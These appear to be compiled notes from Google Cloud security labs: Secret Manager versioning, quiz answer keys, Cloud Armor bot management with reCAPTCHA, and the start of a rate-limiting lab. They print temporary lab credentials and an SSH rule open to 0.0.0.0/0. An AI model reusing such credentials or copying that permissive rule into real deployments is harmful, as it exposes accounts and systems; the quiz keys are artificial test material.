student_04_ceff8bd49e59@cloudshell:~ (qwiklabs-gcp-04-60caced57c66)$ gcloud secrets versions access latest --secret="password"
abc123student_04_ceff8bd49e59@cloudshell:~ (qwiklabs-gcp-04-60caced57c66)$
```

Click *Check my progress* to verify the objective.

Create and use a new secret version


Check my progress


## Task 5. Create a new secret version (and invalidate previous versions)

In this task, you create a new secret version and disable all the past versions. You also verify that only the latest version is accessible.

1. In the **Navigation menu** of Google Cloud Console, select **Security > Secret Manager**. The Secret Manager page shows information about the password secret that you created earlier.
2. Under **Actions**, click the More actions menu, and then click **Add New Version**.
3. For the **Secret value**, enter `def123`.
4. Select the **Disable all past versions** checkbox.
5. Leave all other values at their default setting, and click **Add New Version**.
6. Verify that only the latest version is accessible. To do so, at the Cloud Shell Terminal command line, enter:

```
gcloud secrets versions access latest --secret="password"
```

Copied!

1. If successful, you should see that the value of the password secret (`def123`) is returned at the beginning of the next line, immediately before the command line prompt, similar to what is shown in the screenshot below:

```
student_04_ceff8bd49e59@cloudshell:~ (qwiklabs-gcp-04-60caced57c66)$ gcloud secrets versions access latest --secret="password"
def123student_04_ceff8bd49e59@cloudshell:~ (qwiklabs-gcp-04-60caced57c66)$
```

1. At the command line, try the command again - except this time, for the version, use the latest alias, as shown below:

```
gcloud secrets versions access 2 --secret="password"
```

Copied!

This should produce a FAILED PRECONDITION error, informing you that version 2 is in the DISABLED state. (If you tried to access version 1, the same error would be produced.)

Click *Check my progress* to verify the objective.

Create a new secret version (and invalidate previous versions)


Check my progress


## Task 6. Reinstate and verify a previous secret version

In this task, you re-enable the version 2 password secret and verify that the version 2 password secret is accessible.

1. In the **Navigation menu** of Google Cloud Console, select **Security > Secret Manager**. The Secret Manager page shows information about the password secret that you created earlier.
2. Click the **password** secret. The Details page for the password secret appears.
3. On the Details page, note that all three versions are shown. In the Status column, you see that version 3 is enabled and versions 1 and 2 are disabled.
4. For the version 2, under **Actions**, click the More actions menu, and then select **Enable**.
5. Click **Enable Selected Versions**. In the Status column, version 2 should now appear as enabled.
6. At the Cloud Shell Terminal command line, enter:

```
gcloud secrets versions access 2 --secret="password"
```

Copied!

If successful, you should see that the version 2 value of the password secret (`abc123`) is returned at the beginning of the next line, immediately before the command line prompt, similar to what is shown below:

```
student_04_ceff8bd49e59@cloudshell:~ (qwiklabs-gcp-04-60caced57c66)$ gcloud secrets versions access 2 --secret="password"
abc123student_04_ceff8bd49e59@cloudshell:~ (qwiklabs-gcp-04-60caced57c66)$
```

1. In the upper right corner of Google Console Manager, find and click on the user icon.
2. Click **Sign out**.


## QUIZ

1. Which TWO of the following vulnerabilities are scanned for when you use Web Security Scanner?

- **Mixed content.**

  Correct! Web Security Scanner will find instances in your applications where HTTP and HTTPS calls are mixed.

- **Outdated or insecure libraries.**

  Correct! Web Security Scanner will check your code libraries to make sure they are current and secure.

- User data in images.

- Insecure logins.

- Personalized data in object names.


2. Which TWO of the following statements are TRUE when discussing the threat of OAuth and Identity Phishing?

- Look-alike phishing sites are generally pretty easy to spot.

- **Even small, unimportant pieces of personal data need to be secured from phishing attacks.**

  Correct! While a small piece of personal data may not be enough on its own to allow a phisher to obtain access to a user's more sensitive data, over time these small bits can often be combined to allow user accounts to be compromised.

- Credit card data is the only information that is useful to cyber hackers.

- **Being "hacked" on a social site can lead to being "hacked" on more critical websites, depending on your social site's account settings.**

  Correct! Some social sites allow users to "link" their accounts on other sites - for example, gaming sites - and that link can often be exploited.


3. Which TWO of the following statements about Application Security are TRUE?

- "Injection Flaws" are the least frequently found application security issue.

- **Applications are the most common target of cyberattack.**

  Correct! Attackers know that the security of an application is often undefined and remains untested.

- Developers are commonly given a requirements document that clearly defines security requirements for the application.

- **Applications in general, including many web applications, do not properly protect sensitive user data.**

  Correct! Attackers will target web applications in order to steal or modify weakly-protected data to facilitate credit card fraud, identity theft, or other data and identity crimes.

  

## Securing Google Kubernetes Engine: Techniques and Best Practices

### Quiz

1. Which ONE of the following is NOT a security best practice on Kubernetes.

- Use shielded GKE nodes.

- Upgrade your GKE infrastructure.

- **Disable Workload Identity.**

- Restrict access between pods.

  Correct! Using Workload Identity IS a security best practice for Kubernetes.


2. "Kubernetes service account" and "Google service account" are different names for the same type of service account.

- True

- **False**

  Correct! Kubernetes and Google service accounts are different types of accounts with different scopes.

3. GKE has logging and monitoring functions built in.

- **True**

- False

  Correct! In the Kubernetes dashboard summary pane, you can view a  cluster's key performance metrics, such as CPU utilization, memory  utilization, and the number of open incidents.

  

# 11 - Mitigating Security Vulnerabilities on Google Cloud

## Protecting against Distributed Denial of Service Attacks (DDoS)


# Securing your Network with Cloud Armor

## LAB - Bot Management with Google Cloud Armor and reCAPTCHA

### Overview

Google Cloud HTTP(S) load balancing is deployed at the edge of Google's network in Google points of presence (POP) around the world. User traffic directed to an HTTP(S) load balancer enters the POP closest to the user and is then load balanced over Google's global network to the closest backend that has sufficient capacity available.

Cloud Armor is Google's distributed denial of service and web application firewall (WAF) detection system. Cloud Armor is tightly coupled with the Google Cloud HTTP Load Balancer and safeguards applications of Google Cloud customers from attacks from the internet.

[reCAPTCHA Enterprise](https://cloud.google.com/recaptcha-enterprise/docs) is a service that builds on the reCAPTCHA API and protects your site from spam and abuse using advanced risk analysis techniques to tell humans and bots apart. Cloud Armor Bot Management provides an end-to-end solution integrating reCAPTCHA Enterprise bot detection and scoring with enforcement by Cloud Armor at the edge of the network to protect downstream applications.

In this lab, you configure an HTTP Load Balancer with a backend, as shown in the diagram below. You set up a reCAPTCHA session token site key and embed it in your website. You also set up redirection to reCAPTCHA Enterprise manual challenge. You then configure a Cloud Armor bot management policy to see how bot detection protects your application from malicious bot traffic.


### What you'll learn

In this lab, you learn how to:

- Set up a HTTP Load Balancer with appropriate health checks
- Create a reCAPTCHA WAF challenge-page site key and associated it with Cloud Armor security policy
- Create a reCAPTCHA session token site key and install it on your web pages
- Create a Cloud Armor bot management policy
- Validate that the bot management policy is handling traffic based on the rules configured

### Setup and requirements

### Before you click the Start Lab button

Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click **Start Lab**, shows how long Google Cloud resources are made available to you.

This hands-on lab lets you do the lab activities in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials you use to sign in and access Google Cloud for the duration of the lab.

To complete this lab, you need:

- Access to a standard internet browser (Chrome browser recommended).

**Note:** Use an Incognito (recommended) or private browser window to run this lab. This prevents conflicts between your personal account and the student account, which may cause extra charges incurred to your personal account.

- Time to complete the lab—remember, once you start, you cannot pause a lab.

**Note:** Use only the student account for this lab. If you use a different Google Cloud account, you may incur charges to that account.

### How to start your lab and sign in to the Google Cloud console

1. Click the **Start Lab** button. If you need to pay for the lab, a dialog opens for you to select your payment method. On the left is the Lab Details pane with the following:

   - The Open Google Cloud console button
   - Time remaining
   - The temporary credentials that you must use for this lab
   - Other information, if needed, to step through this lab

2. Click **Open Google Cloud console** (or right-click and select **Open Link in Incognito Window** if you are running the Chrome browser).

   The lab spins up resources, and then opens another tab that shows the Sign in page.

   ***Tip:\*** Arrange the tabs in separate windows, side-by-side.

   **Note:** If you see the **Choose an account** dialog, click **Use Another Account**.

3. If necessary, copy the **Username** below and paste it into the **Sign in** dialog.

   ```
   student-02-21eef573fe2f@qwiklabs.net
   ```

   Copied!

   You can also find the Username in the Lab Details pane.

4. Click **Next**.

5. Copy the **Password** below and paste it into the **Welcome** dialog.

   ```
   FIduoI7qcGGe
   ```

   Copied!

   You can also find the Password in the Lab Details pane.

6. Click **Next**.

   **Important:** You must use the credentials the lab provides you. Do not use your Google Cloud account credentials.

   **Note:** Using your own Google Cloud account for this lab may incur extra charges.

7. Click through the subsequent pages:

   - Accept the terms and conditions.
   - Do not add recovery options or two-factor authentication (because this is a temporary account).
   - Do not sign up for free trials.

After a few moments, the Google Cloud console opens in this tab.

**Note:** To access Google Cloud products and services, click the **Navigation menu** or type the service or product name in the **Search** field. 

### Before you begin

- In Cloud Shell, set up your project ID:

```
export PROJECT_ID=$(gcloud config get-value project)
echo $PROJECT_ID
gcloud config set project $PROJECT_ID
```

Copied!

### Enable APIs

- Enable all necessary services:

```
gcloud services enable compute.googleapis.com
gcloud services enable logging.googleapis.com
gcloud services enable monitoring.googleapis.com
gcloud services enable recaptchaenterprise.googleapis.com
```

Copied!

You're now set up to begin the first task.

### Task 1. Configure firewall rules to allow HTTP and SSH traffic to backends

For this lab, you use the ***default\*** VPC network created in your project when the lab spun up.

In this section, you configure firewall rules to allow HTTP traffic to the backends from the Google Cloud health checks and the Load Balancer. You then configure a firewall rule to allow SSH into the instances.

##### Create a firewall rule to allow HTTP traffic to the backends.

Health checks determine which instances of a load balancer can receive new connections. For HTTP load balancing, the health check probes to your load balanced instances come from addresses in the ranges **130.211.0.0/22 and 35.191.0.0/16**. Your VPC firewall rules must allow these connections. Also, the load balancers talk to the backend on the same IP range.

To create a firewall rule to allow HTTP traffic to the backends:

1. In the console, navigate to **Navigation menu () > VPC network > Firewall**.
2. Notice the existing **ICMP**, **internal**, **RDP**, and **SSH** firewall rules. Each Google Cloud project starts with the default network and these firewall rules.
3. Click **Create Firewall Rule**.
4. Set the following values, leave all other values at their defaults:

| Property                | Value (type value or select option as specified)             |
| :---------------------- | :----------------------------------------------------------- |
| **Name**                | default-allow-health-check                                   |
| **Network**             | default                                                      |
| **Targets**             | Specified target tags                                        |
| **Target tags**         | allow-health-check                                           |
| **Source filter**       | IPv4 Ranges                                                  |
| **Source IPv4 ranges**  | 130.211.0.0/22, 35.191.0.0/16                                |
| **Protocols and ports** | Specified protocols and ports, and then check `tcp`. Type `80` for the port number |

**Note:** Be sure to enter the two **Source IPv4 ranges** one-by-one and press SPACE in between them.

1. Click **Create**.

Alternatively, in the gCloud command line, use the following command:

```
gcloud compute firewall-rules create default-allow-health-check --direction=INGRESS --priority=1000 --network=default --action=ALLOW --rules=tcp:80 --source-ranges=130.211.0.0/22,35.191.0.0/16 --target-tags=allow-health-check
```

Copied!

1. Similarly, create a firewall rule to allow SSH-ing into the instances:

```
gcloud compute firewall-rules create allow-ssh --direction=INGRESS --priority=1000 --network=default --action=ALLOW --rules=tcp:22 --source-ranges=0.0.0.0/0 --target-tags=allow-health-check
```

Copied!

Click **Check my progress** to verify the objective.

Configure firewall rules to allow HTTP and SSH traffic to backends


Check my progress


### Task 2. Configure instance templates and create managed instance groups

A managed instance group uses an instance template to create a group of identical instances. Use these to create the backend of the HTTP Load Balancer.

#### Configure the instance templates

An instance template is a resource that you use to create VM instances and managed instance groups. Instance templates define the machine type, boot disk image, subnet, labels, and other instance properties.

To create an instance template:

1. In the console, navigate to **Navigation menu () > Compute Engine > Instance templates**, and then click **Create instance template**.
2. For **Name**, type **lb-backend-template**.
3. For **Location**, Select **Global**.
4. For Series, select **N1**.
5. Click **Networking, Disks, Security, Management, Sole-Tenancy** under **Advanced options**.
6. Go to the **Management** section and insert the following script into the **Startup script** field:

```
#! /bin/bash
sudo apt-get update
sudo apt-get install apache2 -y
sudo a2ensite default-ssl
sudo a2enmod ssl
sudo su
vm_hostname="$(curl -H "Metadata-Flavor:Google" \
http://metadata.google.internal/computeMetadata/v1/instance/name)"
echo "Page served from: $vm_hostname" | \
tee /var/www/html/index.html
```

Copied!

1. Click on the **Networking** tab and add the network tag: **allow-health-check**
2. Set the following values and leave all other values at their defaults:

| Property                                  | Value (type value or select option as specified) |
| :---------------------------------------- | :----------------------------------------------- |
| **Network (Under Network Interfaces)**    | default                                          |
| **Subnetwork (Under Network Interfaces)** | default (`us-central1`)                          |
| **Network tags**                          | allow-health-check                               |

**Note:** The network tag **allow-health-check** ensures that the HTTP Health Check and SSH firewall rules apply to these instances.

1. Click **Create**.

Wait for the instance template to be created.

#### Create the managed instance group

To Create the managed instance group:

1. Still in **Compute Engine** page, click **Instance groups** in the left pane.
2. Click **Create instance group**.
3. Select **New managed instance group (stateless)**.
4. Set the following values, leave all other values at their defaults:

| Property                       | Value (type value or select option as specified)      |
| :----------------------------- | :---------------------------------------------------- |
| **Name**                       | lb-backend-example                                    |
| **Location**                   | Single zone                                           |
| **Region**                     | `us-central1`                                         |
| **Zone**                       | `us-central1-c`                                       |
| **Instance template**          | lb-backend-template                                   |
| **Autoscaling**                | Set **Autoscaling mode** to **Off: do not autoscale** |
| **Minimum number of instance** | 1                                                     |

1. Click **Create**.

#### Add a named port to the instance group

- For your instance group, in Cloud Shell, define an HTTP service and map a port name to the relevant port:

```
gcloud compute instance-groups set-named-ports lb-backend-example \
--named-ports http:80 \
--zone <var>us-central1-c</var>
```

Copied!

The load balancing service forwards traffic to the named port.

Click **Check my progress** to verify the objective.

Configure instance templates and create managed instance groups


Check my progress


### Task 3. Configure the HTTP Load Balancer

In this section, you configure the HTTP Load Balancer to send traffic to your backend **lb-backend-example**.

#### Start the configuration

1. In the console, click **Navigation menu** () > click **Network Services** > **Load balancing**, and then click **Create load balancer**.
2. Select **Application Load Balancer (HTTP/HTTPS)** and **Next**.
3. Select **Public facing (external)** and **Next**.
4. Select **Best for global workloads** and **Next**.
5. Select **Global external Application Load Balancer** and **Next**.
6. Select **Configure**.
7. Set the **Name** to `http-lb`.

#### Configure the frontend

1. Click **Frontend configuration**.
2. Specify the following, leaving all other values at their defaults:

| Property       | Value (type value or select option as specified) |
| :------------- | :----------------------------------------------- |
| **Protocol**   | HTTP                                             |
| **IP version** | IPv4                                             |
| **IP address** | Ephemeral                                        |
| **Port**       | 80                                               |

1. Click **Done**.

#### Configure the backend

Backend services direct incoming traffic to one or more attached backends. Each backend is composed of an instance group and additional serving capacity metadata.

1. Click on **Backend configuration**.
2. For **Backend services & backend buckets**, click **Create a backend service**.
3. Set the following values, leave all other values at their defaults:

| Property           | Value (select option as specified) |
| :----------------- | :--------------------------------- |
| **Name**           | http-backend                       |
| **Protocol**       | HTTP                               |
| **Named Port**     | http                               |
| **Instance group** | lb-backend-example                 |
| **Port numbers**   | 80                                 |

1. Click **Done**.
2. For **Cloud CDN**, set the **Cache mode** to **Use origin settings based on Cache-Control headers**.
3. For **Health Check**, select **Create a health check**.


1. Set the following values, leave all other values at their defaults:

| Property     | Value (select option as specified) |
| :----------- | :--------------------------------- |
| **Name**     | http-health-check                  |
| **Protocol** | TCP                                |
| **Port**     | 80                                 |

**Note:** Health checks determine which instances receive new connections.


This HTTP health check polls instances every 5 seconds, waits up to 5 seconds for a response and treats 2 successful or 2 failed attempts as healthy or unhealthy, respectively.

1. Click **Save**.
2. Check the **Enable Logging box**.
3. Set the **Sample rate** to `1`.
4. Click **Create** to create the backend service and click **ok**.

#### Review and create the HTTP Load Balancer

Host and path rules determine how your traffic is directed. For example, you could direct video traffic to one backend and static traffic to another backend. However, you are not configuring the Host and path rules in this lab.

1. Click on **Review and finalize**.


1. Review the **Backend services** and **Frontend**.
2. Click on **Create**.

Wait for the load balancer to be created.

1. Click on the name of the load balancer (**http-lb**).
2. Note the IPv4 address of the load balancer for the next task. In this lab, refer to it as `[LB_IP_v4]`.

Click **Check my progress** to verify the objective.

Configure the HTTP Load Balancer


Check my progress


#### Test the HTTP Load Balancer

Now that you created the HTTP Load Balancer for your backends, verify that traffic is forwarded to the backend service.

- To test IPv4 access to the HTTP Load Balancer, open a new tab in your browser and navigate to **http://[LB_IP_v4]**. Be sure to replace `[LB_IP_v4]` with the IPv4 address of the load balancer.

**Note:** It might take up to 5 minutes to access the HTTP Load Balancer. In the meantime, you might get a 404 or 502 error. Keep trying until you see the page load.

### Task 4. Create and deploy reCAPTCHA session token and challenge-page site key

reCAPTCHA Enterprise for WAF and Google Cloud Armor integration offers the following features: [reCAPTCHA challenge page](https://cloud.google.com/recaptcha-enterprise/docs/usecase#redirect), [reCAPTCHA action-tokens](https://cloud.google.com/recaptcha-enterprise/docs/usecase#action-token), and [reCAPTCHA session-tokens](https://cloud.google.com/recaptcha-enterprise/docs/usecase#session-token). In this task, you implement the reCATCHA session token site key and reCAPTCHA WAF challenge-page site.

#### Create reCAPTCHA session token and WAF challenge-page site key

Before you create the session token site key and challenge page site key, double-check that you've enabled the reCAPTCHA Enterprise API as indicated in the previous *Enable API* section.

The reCAPTCHA JavaScript sets a reCAPTCHA session-token as a cookie on the end-user's browser after the assessment. The end-user's browser attaches the cookie and refreshes the cookie as long as the reCAPTCHA JavaScript remains active.

1. Create the reCAPTCHA session token site key and enable the WAF feature for the key:

```
gcloud recaptcha keys create --display-name=test-key-name \
  --web --allow-all-domains --integration-type=score --testing-score=0.5 \
  --waf-feature=session-token --waf-service=ca
```

Copied!

The output of the above command gives you the session token site key you created. Record it to use later in this task.

You also set the WAF service to Cloud Armor to enable the Cloud Armor integration.

**Note:** You are using the integration type **score** which is leveraged in the Cloud Armor policy. You can alternatively use **checkbox** and **invisible**.


You also set a **testing score** when you create the key to validate that the bot management policies created with Cloud Armor are working as intended. Replicating bot traffic is not easy, so this is a good way to test the feature.

1. Create the reCAPTCHA WAF challenge-page site key and enable the WAF feature for the key. You can use the reCAPTCHA challenge page feature to redirect incoming requests to reCAPTCHA Enterprise to determine whether each request is potentially fraudulent or legitimate. Later, you associate this key with the Cloud Armor security policy to enable the manual challenge. This lab refers to this key as `CHALLENGE-PAGE-KEY` in the later steps.

```
gcloud recaptcha keys create --display-name=challenge-page-key \
--web --allow-all-domains --integration-type=INVISIBLE \
--waf-feature=challenge-page --waf-service=ca
```

Copied!

1. Navigate to **Navigation menu () > Security > reCAPTCHA Enterprise**. You should see the keys you created in the **Enterprise Keys** list:

#### Implement reCAPTCHA session token site key

1. Navigate to **Navigation menu () > Compute Engine > VM Instances**. Locate the VM in your instance group and SSH to it.


1. Go to the webserver root directory and change user to root:

```
cd /var/www/html/
sudo su
```

Copied!

1. Update the landing `index.html` page and embed the reCAPTCHA session token site key. The session token site key (that you recorded earlier) is set in the head section of your landing page as below:

```
src="https://www.google.com/recaptcha/enterprise.js?render=<SESSION_TOKEN_SITE_KEY>&waf=session" async defer>
```

Remember to replace `<SESSION_TOKEN_SITE_KEY>` with the site token before you run the following command:

```
echo '<!doctype html><html><head><title>ReCAPTCHA Session Token</title><script src="https://www.google.com/recaptcha/enterprise.js?render=<SESSION_TOKEN_SITE_KEY>&waf=session" async defer></script></head><body><h1>Main Page</h1><p><a href="/good-score.html">Visit allowed link</a></p><p><a href="/bad-score.html">Visit blocked link</a></p><p><a href="/median-score.html">Visit redirect link</a></p></body></html>' > index.html
```

Copied!

1. Create three other sample pages to test out the bot management policies:

- **good-score.html**

```
echo '<!DOCTYPE html><html><head><meta http-equiv="Content-Type" content="text/html; charset=windows-1252"></head><body><h1>Congrats! You have a good score!!</h1></body></html>' > good-score.html
```

Copied!

- **bad-score.html**

```
echo '<!DOCTYPE html><html><head><meta http-equiv="Content-Type" content="text/html; charset=windows-1252"></head><body><h1>Sorry, You have a bad score!</h1></body></html>' > bad-score.html
```

Copied!

- **median-score.html**

```
echo '<!DOCTYPE html><html><head><meta http-equiv="Content-Type" content="text/html; charset=windows-1252"></head><body><h1>You have a median score that we need a second verification.</h1></body></html>' > median-score.html
```

Copied!

Validate that you are able to access all the webpages by opening them in your browser. Be sure to replace `[LB_IP_v4]` with the IPv4 address of the load balancer:

1. Open `http://[LB_IP_v4]/index.html`. You verify that the reCAPTCHA implementation is working when you see "protected by reCAPTCHA" at the bottom right corner of the page:


1. Click into each of the links.


1. Validate you are able to access all the pages.


Click **Check my progress** to verify the objective.

Deploy reCAPTCHA session token and challenge-page site key


Check my progress


### Task 5. Create Cloud Armor security policy rules for Bot Management

In this section, you use Cloud Armor bot management rules to allow, deny and redirect requests based on the reCAPTCHA score.

1. In Cloud Shell, create security policy via gcloud:

```
gcloud compute security-policies create recaptcha-policy \
    --description "policy for bot management"
```

Copied!

1. To use reCAPTCHA Enterprise manual challenge to distinguish between human and automated clients, associate the reCAPTCHA WAF challenge site key (CHALLENGE-PAGE-KEY) you previously created for a manual challenge with the security policy. In the following script, remember to replace "CHALLENGE-PAGE-KEY" with the key you previously created:

```
gcloud compute security-policies update recaptcha-policy \
  --recaptcha-redirect-site-key "CHALLENGE-PAGE-KEY"
```

Copied!

1. Add a bot management rule to allow traffic if the url path matches good-score.html and has a score greater than 0.4:

```
gcloud compute security-policies rules create 2000 \
    --security-policy recaptcha-policy\
    --expression "request.path.matches('good-score.html') &&    token.recaptcha_session.score > 0.4"\
    --action allow
```

Copied!

1. Add a bot management rule to deny traffic if the url path matches bad-score.html and has a score less than 0.6:

```
gcloud compute security-policies rules create 3000 \
    --security-policy recaptcha-policy\
    --expression "request.path.matches('bad-score.html') && token.recaptcha_session.score < 0.6"\
    --action "deny-403"
```

Copied!

1. Add a bot management rule to redirect traffic to Google reCAPTCHA if the url path matches median-score.html and has a score equal to 0.5:

```
gcloud compute security-policies rules create 1000 \
    --security-policy recaptcha-policy\
    --expression "request.path.matches('median-score.html') && token.recaptcha_session.score == 0.5"\
    --action redirect \
    --redirect-type google-recaptcha
```

Copied!

1. Attach the security policy to the backend service `http-backend`:

```
gcloud compute backend-services update http-backend \
    --security-policy recaptcha-policy --global
```

Copied!

1. In the console, navigate to **Navigation menu > Network Security > Cloud Armor policies**.
2. Click `recaptcha-policy`.

Your policy should resemble the following:


Click **Check my progress** to verify the objective.

Create Cloud Armor security policy rules for Bot Management


Check my progress


### Task 6. Validate Bot Management with Cloud Armor

1. Open up a browser and enter the url `http://[LB_IP_v4]/index.html`. Navigate to **"Visit allowed link"**.


1. Open a new window in Incognito mode to ensure you have a new session.
2. Enter the url `http://[LB_IP_v4]/index.html` and navigate to **"Visit blocked link"**. You should receive a **HTTP 403** error:


1. Open a new window in Incognito mode to ensure you have a new session.
2. Enter the url `http://[LB_IP_v4]/index.html` and navigate to **"Visit redirect link"**. You should see the redirection to Google reCAPTCHA and the manual challenge page as below:


**Note:** If the user interaction passes the assessment, reCAPTCHA Enterprise issues an exemption cookie. The browser attaches this exemption cookie to the user's subsequent requests to the same site until the cookie expires. By default, the exemption cookie expires after three hours.

**Note:** To prevent automated software from participating in abusive actions on your site, reCAPTCHA uses an advanced risk analysis engine and adaptive CAPTCHAs. It accomplishes this while allowing your valid users to pass through with ease. If the algorithm believes you are a human, it will validate the reCaptcha without additional action from you. If not, it will display a variety of images that you must categorize before proceeding. Only the most suspect traffic will be requested to solve a captcha by default. If you are not served with a challenge to solve, you can still check the policy logs and verify that you were exempted from solving a challenge.

#### Verify Cloud Armor logs

Explore the security policy logs to validate bot management worked as expected.

1. In the console, navigate to **Navigation menu > Network Security > Cloud Armor**.
2. Click **recaptcha-policy**.
3. Click **Logs**.
4. Click **View policy logs**.
5. Below is the MQL(monitoring query language) query, copy and paste into the query editor:

```
resource.type:(http_load_balancer) AND jsonPayload.enforcedSecurityPolicy.name:(recaptcha-policy)
```

Copied!

1. Now click **Run Query**.
2. Look for a log entry in Query results where the request is for `http://[LB_IP_v4]/good-score.html`. Expand jsonPayload.Expand enforcedSecurityPolicy.


**Note:** If you are not seeing log entries, wait a couple of minutes for the policy to propagate, refresh the URLs you used earlier, then check the logs again.

1. Repeat the same for `http://[LB_IP_v4]/bad-score.html` and `http://[LB_IP_v4]/median-score.html`.




Notice that the `configuredAction` is set to **ALLOW, DENY or GOOGLE_RECAPTCHA** with the name **recaptcha-policy**.

**Note:** Cloud Armor security policies create logs that can be explored to determine when traffic is denied and when it is allowed, along with the source of the traffic.

Click **Check my progress** to verify the objective.

Validate bot management with Cloud Armor


Check my progress


### Congratulations!

You successfully implemented bot management with Cloud Armor. You configured an HTTP Load Balancer. Then, you created and implemented reCAPTCHA session token site key on a webpage. You also created a challenge-page site key. You set up Cloud Armor Bot management policy and validated how they handle requests based on the rules. You explored the security policy logs to identify why the traffic was allowed, blocked or redirected.


## LAB - Rate Limiting with Cloud Armor

### Overview

Google Cloud HTTP(S) load balancing is implemented at the edge of Google's network in Google's points of presence (POP) around the world. User traffic directed to an HTTP(S) load balancer enters the POP closest to the user and is then load balanced over Google's global network to the closest backend that has sufficient capacity available.

Cloud Armor IP allowlist/denylist enable you to restrict or allow access to your HTTP(S) load balancer at the edge of the Google Cloud, as close as possible to the user and to malicious traffic. This prevents malicious users or traffic from consuming resources or entering your virtual private cloud (VPC) networks.

In this lab, you configure an HTTP Load Balancer with global backends, as shown in the diagram below. Then, you'll stress test the Load Balancer and add a Cloud Armor rate limiting policy to restrict based on IP.


#### What you'll learn

In this lab, you learn how to perform the following tasks:

- Create HTTP and health check firewall rules
- Configure two instance templates
- Create two managed instance groups
- Configure an HTTP Load Balancer with IPv4 and IPv6
- Stress test an HTTP Load Balancer
- Add a Cloud Armor rate limiting policy to restrict based on IP
- Verify that traffic is getting blocked when running a stress test from a VM

### Setup and requirements

#### Before you click the Start Lab button

Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click **Start Lab**, shows how long Google Cloud resources are made available to you.

This hands-on lab lets you do the lab activities in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials you use to sign in and access Google Cloud for the duration of the lab.

To complete this lab, you need:

- Access to a standard internet browser (Chrome browser recommended).

**Note:** Use an Incognito (recommended) or private browser window to run this lab. This prevents conflicts between your personal account and the student account, which may cause extra charges incurred to your personal account.

- Time to complete the lab—remember, once you start, you cannot pause a lab.

**Note:** Use only the student account for this lab. If you use a different Google Cloud account, you may incur charges to that account.

#### How to start your lab and sign in to the Google Cloud console

1. Click the **Start Lab** button. If you need to pay for the lab, a dialog opens for you to select your payment method. On the left is the Lab Details pane with the following:

   - The Open Google Cloud console button
   - Time remaining
   - The temporary credentials that you must use for this lab
   - Other information, if needed, to step through this lab

2. Click **Open Google Cloud console** (or right-click and select **Open Link in Incognito Window** if you are running the Chrome browser).

   The lab spins up resources, and then opens another tab that shows the Sign in page.

   ***Tip:\*** Arrange the tabs in separate windows, side-by-side.

   **Note:** If you see the **Choose an account** dialog, click **Use Another Account**.

3. If necessary, copy the **Username** below and paste it into the **Sign in** dialog.

   ```
   student-02-228103688975@qwiklabs.net
   ```

   Copied!

   You can also find the Username in the Lab Details pane.

4. Click **Next**.

5. Copy the **Password** below and paste it into the **Welcome** dialog.

   ```
   7kFwx0bs7ZSo
   ```

   Copied!

   You can also find the Password in the Lab Details pane.

6. Click **Next**.

   **Important:** You must use the credentials the lab provides you. Do not use your Google Cloud account credentials.

   **Note:** Using your own Google Cloud account for this lab may incur extra charges.

7. Click through the subsequent pages:

   - Accept the terms and conditions.
   - Do not add recovery options or two-factor authentication (because this is a temporary account).
   - Do not sign up for free trials.

After a few moments, the Google Cloud console opens in this tab.

**Note:** To access Google Cloud products and services, click the **Navigation menu** or type the service or product name in the **Search** field. 

#### Activate Cloud Shell

Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud. Cloud Shell provides command-line access to your Google Cloud resources.

1. Click **Activate Cloud Shell**  at the top of the Google Cloud console.
2. Click through the following windows:
   - Continue through the Cloud Shell information window.
   - Authorize Cloud Shell to use your credentials to make Google Cloud API calls.

When you are connected, you are already authenticated, and the project is set to your **Project_ID**, `qwiklabs-gcp-03-7acbbdef9b9d`. The output contains a line that declares the **Project_ID** for this session:

```
Your Cloud Platform project in this session is set to qwiklabs-gcp-03-7acbbdef9b9d
```

`gcloud` is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.

1. (Optional) You can list the active account name with this command:

```
gcloud auth list
```

Copied!

1. Click **Authorize**.

**Output:**

```
ACTIVE: *
ACCOUNT: student-02-228103688975@qwiklabs.net

To set the active account, run:
    $ gcloud config set account `ACCOUNT`
```

1. (Optional) You can list the project ID with this command:

```
gcloud config list project
```

Copied!

**Output:**

```
[core]
project = qwiklabs-gcp-03-7acbbdef9b9d
```

**Note:** For full documentation of `gcloud`, in Google Cloud, refer to [the gcloud CLI overview guide](https://cloud.google.com/sdk/gcloud).

### Task 1. Configure HTTP and health check firewall rules

Configure firewall rules to allow HTTP traffic to the backends and TCP traffic from the Google Cloud health checker.

#### **Create the HTTP firewall rule**

Create a firewall rule to allow HTTP traffic to the backends.

1. In the Cloud Console, navigate to **Navigation menu** () > **VPC network** > **Firewall**.

2. Notice the existing **ICMP**, **internal**, **RDP**, and **SSH** firewall rules.

   Each Google Cloud project starts with the **default** network and these firewall rules.

3. Click **Create Firewall Rule**.

4. Set the following values, leave all other values at their defaults:

   | Property            | Value (type value or select option as specified)             |
   | :------------------ | :----------------------------------------------------------- |
   | Name                | default-allow-http                                           |
   | Network             | default                                                      |
   | Targets             | Specified target tags                                        |
   | Target tags         | http-server                                                  |
   | Source filter       | IPv4 Ranges                                                  |
   | Source IP ranges    | 0.0.0.0/0                                                    |
   | Protocols and ports | Specified protocols and ports, and then *check* tcp, *type:* 80 |

   **Note:** Make sure to include the **/0** in the **Source IP ranges** to specify all networks.

5. Click **Create**.

#### **Create the health check firewall rules**

Health checks determine which instances of a load balancer can receive new connections. For HTTP load balancing, the health check probes to your load balanced instances come from addresses in the ranges `130.211.0.0/22` and `35.191.0.0/16`. Your firewall rules must allow these connections.

1. Still in the **Firewall rules** page, click **Create Firewall Rule**.

2. Set the following values, leave all other values at their defaults:

   | Property            | Value (type value or select option as specified)    |
   | :------------------ | :-------------------------------------------------- |
   | Name                | default-allow-health-check                          |
   | Network             | default                                             |
   | Targets             | Specified target tags                               |
   | Target tags         | http-server                                         |
   | Source filter       | IPv4 Ranges                                         |
   | Source IP ranges    | `130.211.0.0/22`, `35.191.0.0/16`                   |
   | Protocols and ports | Specified protocols and ports, and then *check* tcp |

   **Note:** Make sure to enter the two **Source IP ranges** one-by-one and press SPACE in between them.

3. Click **Create**.

Click **Check my progress** to verify the objective.

Configure HTTP and health check firewall rules


Check my progress


### Task 2. Configure instance templates and create instance groups

